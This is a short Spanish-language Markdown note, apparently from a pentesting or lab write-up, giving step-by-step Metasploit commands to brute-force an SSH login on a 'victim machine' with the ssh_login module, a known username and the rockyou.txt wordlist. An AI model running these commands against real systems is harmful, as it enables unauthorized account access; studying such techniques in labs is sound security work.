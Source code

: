 ## Fuerza bruta con Metasploit ##

1. En la consola de Metasploit necesitamos buscar el modulo ssh_login:
	`search ssh_login`
2. Usaremos el modulo 0:
	`use 0`
3. Vemos las opciones de configuración:
	`show options`
4. Como conocemos el usuario de la maquina victima solo necesitaremos usar una wordlist:
	`set USERNAME jalag ` añadir nombre usuario
	`set PASS_FILE /usr/share/wordlists/rockyou.txt`
5. Ejecutamos la configuración:
	`run`
6. Obtendremos la contraseña y se accederá por SSH directamente.
